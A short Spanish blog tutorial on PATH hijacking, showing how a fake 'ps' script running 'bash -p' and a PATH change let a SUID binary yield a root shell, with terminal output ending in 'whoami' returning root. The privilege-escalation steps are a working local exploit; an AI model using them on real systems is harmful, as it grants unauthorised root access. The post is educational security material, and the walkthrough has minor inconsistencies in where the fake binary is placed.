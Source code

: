 ```yaml
---
date: 2021-09-07T20:22:05.000Z
layout: post
comments: true
title: PATH Hijacking
subtitle: 'y su explotación en un binario SIUD'
description: >-
image: >-
  http://imgfz.com/i/UWCKliL.png
optimized_image: >-
 http://imgfz.com/i/UWCKliL.png
category: ciberseguridad
tags:
  - permisos
  - linux
  - GNU
  - ciberseguridad
  - hacking
author: Felipe Canales Cayuqueo
paginate: true
---
```


Con el comando ```strings``` se nos permite listar las cadenas de carácteres imprimibles de un binario. ```strings demo``` nos podría mostrar el comando aplicado a nivel de sistema osea podría ser ```/usr/bin/ps```, detectado en ```demo.c```. Esto es PATH hijacking, que es el secuestro del PATH para alterar el flujo de como operan los comandos por el orden de prioridad. Ejemplo:

```
user$ touch ps
user$ chmod +x ps [Esto permitirá la ejecución]
user$ nano ps
```

Le asignamos que nos ejecute una bash, con la flag ```-p``` para que direccione directamente al propietario y me pueda convertir en root.
```
bash -p
```

Ahora alteramos nuestro propio PATH a través del comando ```export```:

```
user$ echo $PATH
/home/user/.local/bin:/snap/bin:/user/sandbox/:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games

user$ export PATH=/tmp:$PATH
user$ echo $PATH
/tmp:/home/user/.local/bin:/snap/bin:/user/sandbox/:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games

user$ ls
ps
user$ cd /home/user/Desktop/
user$ ls
demo  demo.c
user$ pwd
/home/user/Desktop/
user$ ./demo

[*] Listando procesos (/usr/bin/ps):

    PID TTY          TIME CMD
   29098 pts/0    00:00:01 sudo
   29099 pts/0    00:00:00 su
   29100 pts/0    00:00:00 gitstatusd-linu
   29103 pts/0    00:00:00 demo
   29137 pts/0    00:00:00 sh
   31299 pts/0    00:00:00 ps


[*] Listando procesos (ps):

admin@kali:/home/root/Desktop# whoami
root
```

Y así es como se obtiene acceso a través de PATH Hijacking.
